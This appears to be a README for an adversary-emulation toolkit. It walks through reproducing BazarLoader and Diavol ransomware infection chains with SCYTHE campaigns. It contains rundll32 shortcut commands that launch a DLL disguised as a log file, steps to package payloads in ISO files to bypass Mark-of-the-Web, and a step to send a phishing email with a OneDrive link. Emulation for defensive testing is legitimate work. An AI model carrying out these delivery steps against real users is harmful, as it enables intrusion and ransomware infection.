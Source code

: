 # BazarLoader

BazarLoader is used as part of the initial access portion of multiple threat groups. The threat focuses on bypassing defenses and is commonly changing TTPs. In this threat, we cover a number of different examples observed in the wild.

## BazarLoader Excel to WMIC to PowerShell to rundll32.exe
This CTI comes from https://app.any.run/tasks/c5dc698b-8e86-4e50-8b32-d8f45f7538b3/

### BazarLoaderStage0
1. Download and import the threats in JSON format to your SCYTHE instance
2. Create a new campaign `BazarLoaderStage0` with HTTPS
3. Import from Existing Threat: BazarLoaderStage0
4. Modify the process hollowing command to match the location where Microsoft Excel is installed in the target system
5. Launch the Campaign
6. Start Stage 1 and 2 before execution

### BazarLoaderStage1
1. Create a new campaign `BazarLoaderStage1` with HTTPS
2. Import from Existing Threat: BazarLoaderStage1
3. Launch the Campaign
4. Save the 64-bit EXE as `BazarLoaderStage1.exe`
5. Upload to VFS:/shared/BazarLoader/BazarLoaderStage1.exe

### BazarLoaderStage2
1. Create a new campaign `BazarLoaderStage2` with HTTPS
2. Add any automation you would like to execute
3. Launch the Campaign
4. Download the DLL with entry-point set to `setscreen`
5. Save the DLL as `87764675478.dll`
6. Upload the DLL to VFS:/shared/BazarLoader/87764675478.dll

## BazarLoader LOG File in ISO
This CTI comes from https://twitter.com/th3_protoCOL/status/1488600980979552256?s=20&t=QKD0ws_NAZdzjYI8LXmIQA

### BazarLoaderStage1

1. Download and import the BazarLoaderStage1 SCYTHE Threat JSON
2. Create a new Campaign, Select DiavolStage1 in Existing User-Defined Threats, and click Add Steps
3. Start Campaign
4. Select Download, File type DLL, and change the Entry-point function name to spload
5. Download and change the file name to DumpStack.log 
6. Create a new folder and place DumpStack.log into it
7. In the new folder right click navigate to New and select Shortcut
8. In the Type the location of the item paste in “cmd.exe /c xcopy /y DumpStack.log c:\programdata\ && C:\Windows\System32\rundll32.exe C:\programdata\DumpStack.log,spload && exit” and select next
9. Name the shortcut Attachments
10. Once the shortcut is created, right click and select properties
11. In the properties window clear the Start in field so it’s blank and apply the changes
12. Launch the application Folder2Iso available at https://github.com/scythe-io/compound-actions/tree/main/T1553.005%20-%20Mark-of-the-Web%20Bypass/src
13. For the Select Folder field choose the new folder you placed the .log and .lnk files in
14. Click Select Output and enter a name for the Select Output field, we chose Report
15. Click Generate ISO
16. Place the ISO file on the target host system, click the ISO to mount it, and then click the shortcut to execute the campaign

## Diavol Ransomware
The CTI for this threat comes from https://thedfirreport.com/2021/12/13/diavol-ransomware/ and is further explained in our #ThreatThursday blog series: https://www.scythe.io/library/adversary-emulation-diavol-ransomware-threatthursday

### DiavolStage0
1. Download and import the threats in JSON format to your SCYTHE instance
2. Download the Virtual File System (VFS) files under Diavol/VFS
3. Upload the VFS files to your SCYTHE VFS in the following location: VFS:/shared/Diavol
4. Create a new campaign `DiavolStage0` with HTTPS and the communication options from the CTI. You can import from the config.json on this GitHub or manually set it to: `--cp yourdomain[.]com:443 --secure true --multipart 10240 --heartbeat 5 --jitter 10`
5. Import from Existing Threat: DiavolStage0
6. Launch the Campaign
7. Download payload in DLL format setting the entry-point to `BasicScore`
8. Save the DLL as `SharedFiles.dll`
9. Start Stage 1 and 2 before execution
11. Copy the src folder from our [Compound Actions GitHub for T1553.005](https://github.com/scythe-io/compound-actions/tree/main/T1553.005%20-%20Mark-of-the-Web%20Bypass/src) to a working directory on your Windows system
12. Put the SCYTHE DLL in the Folder2Iso of the working directory
13. In the Folder2Iso directory, create a shortcut called `Documents` and set the `Target` to: `C:\Windows\System32\rundll32.exe SharedFiles.dll,BasicScore`
14. Open a Windows command prompt and cd to the working directory
15. Run `Folder2Iso.exe "Folder2Iso" "%USERPROFILE%\Downloads\new-documents-2005.iso" "Diavol" 0 0 0 "None"` This will take all the content of the Folder2Iso folder and create an ISO of it
16. Zip the ISO and call it `new-documents-2005.zip`
17. Upload the zip file to Microsoft OneDrive and copy the link
18. Send a phishing email with the link to the Microsoft OneDrive zip file
19. If the end user downloads the ZIP and double clicks the ISO, it will be mounted on their endpoint. The user will need to double click the shortcut to begin execution.

### DiavolStage1
1. Create a new campaign `DiavolStage1` with HTTPS and the communication options from the CTI. You can import from the config.json on this GitHub or manually set it to: `--cp yourdomain[.]com:443 --secure true --multipart 10240 --heartbeat 5 --jitter 10`
2. Import from Existing Threat: DiavolStage1
3. Launch the Campaign
4. Download payload in EXE format and save it as `DiavolStage1.exe`
5. Upload the `DiavolStage1.exe` to the VFS under VFS:/shared/Diavol

### DiavolStage2
1. Create a new campaign `DiavolStage2` with HTTPS and the communication options from the CTI. You can import from the config.json on this GitHub or manually set it to: `--cp yourdomain[.]com:443 --secure true --multipart 10240 --heartbeat 5 --jitter 10`
2. Import from Existing Threat: DiavolStage2 or create any automation you would like to execute
3. Launch the Campaign
4. Download payload in DLL format setting the entry-point to `EnterDll`
5. Save the DLL as `tfpkuengdlu.dll`
6. Upload the `tfpkuengdlu.dll` to the VFS under VFS:/shared/Diavol


